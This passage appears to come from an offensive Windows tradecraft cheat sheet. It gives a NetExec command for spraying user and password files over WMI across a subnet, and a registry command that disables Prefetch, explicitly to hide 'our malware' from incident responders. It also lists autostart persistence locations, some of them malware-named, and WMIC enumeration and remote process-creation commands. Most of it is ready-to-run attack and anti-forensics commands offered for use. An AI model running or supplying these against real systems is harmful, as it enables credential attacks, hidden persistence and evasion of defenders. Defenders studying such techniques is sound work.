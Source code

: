 ```
nxc wmi 10.10.10.0/24 -u userfile -p passwordfile
```

## Disabling Prefetch

What are Prefetch Files? Prefetch files are great artifacts for forensic investigators trying to analyze applications that have been run on a system. Windows creates a prefetch file when an application is run from a particular location for the very first time. This is used to help speed up the loading of applications. But if we disable Prefetch files, we can hide execution patterns of our malware to hinder incident response.

The following command requires Administrator privileges, but disables Prefetch within the registry. While this tactic may appear anomalous to network defenders such as clearing Security Event Logs, it will obfuscate the malware's execution history.

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /f /d 0
```

## Windows AutoStart Persistence Locations

Locations for automatically starting at system boot or user logon

```
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Windows Debug Tools-%LOCALAPPDATA%\
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
software\microsoft\windows\currentversion\run\microsoft windows html help
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\IAStorD
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

## WMIC Tricks and Tips

Enumeration

```
wmic environment list
wmic useraccount get /ALL /format:csv
wmic process get caption,executablepath,commandline /format:csv
wmic qfe get description,installedOn /format:csv
# PowerShell
Invoke-WmiMethod -Path #{new_class} -Name create -ArgumentList #{process_to_execute}
```
